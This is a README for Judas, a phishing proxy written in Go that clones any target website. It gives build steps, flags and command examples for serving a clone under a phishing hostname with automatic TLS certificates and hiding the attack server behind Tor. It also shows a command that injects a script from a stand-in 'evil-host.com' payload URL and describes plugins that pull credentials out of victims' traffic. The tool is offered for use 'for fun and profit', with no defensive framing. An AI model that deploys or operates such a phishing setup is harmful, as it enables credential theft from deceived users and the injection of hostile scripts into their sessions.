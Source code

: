 Judas
=====
Judas is a pluggable phishing proxy.
It can clone any website passed to it using command line flags, and you can extend it with Go plugins for fun and profit.

```
Usage of judas:
  -address string
        Address and port to run proxy service on. Format address:port. (default "localhost:8080")
  -inject-js string
        URL to a JavaScript file you want injected.
  -insecure
        Listen without TLS.
  -insecure-target
        Not verify SSL certificate from target host.
  -plugins string
        Colon separated file path to plugin binaries.
  -proxy string
        Optional upstream SOCKS5 proxy. Useful for torification.
  -proxy-ca-cert string
        Proxy CA cert for signed requests
  -ssl-hostname string
        Hostname for SSL certificate
  -target string
        The website we want to phish.
  -with-profiler
        Attach profiler to instance.
```

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website, simply pass the `--ssl-hostname` flag.
If you want to listen using HTTP, pass the ```--insecure``` flag.
If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.

Example:
```
./judas --target https://target-url.com --ssl-hostname phishingsite.com
```

```
./judas --target https://target-url.com --insecure
```

```
./judas --target https://target-url-with-self-signed-cert.com --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas --target https://torwebsite.onion --cert server.crt --private-key server.key --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --inject-js https://evil-host.com/payload.js
```

Plugins
-------
Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.
You should configure your plugins using [environment variables](https://golang.org/pkg/os/#Getenv).

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Plugin with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Plugin, error)
```

The `judas.Plugin` interface has one method: `Listen`.

```
// Plugin must be implemented by a plugin to users to hook the request - response transaction.
// The Listen method will be run in its own goroutine, so plugins cannot block the rest of the program, however panics can take down the entire process.
type Plugin interface {
	Listen(results <-chan *Result)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Plugins can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

```
judas \
     --target https://www.google.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target
     --plugin ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin path/to/plugin.go
```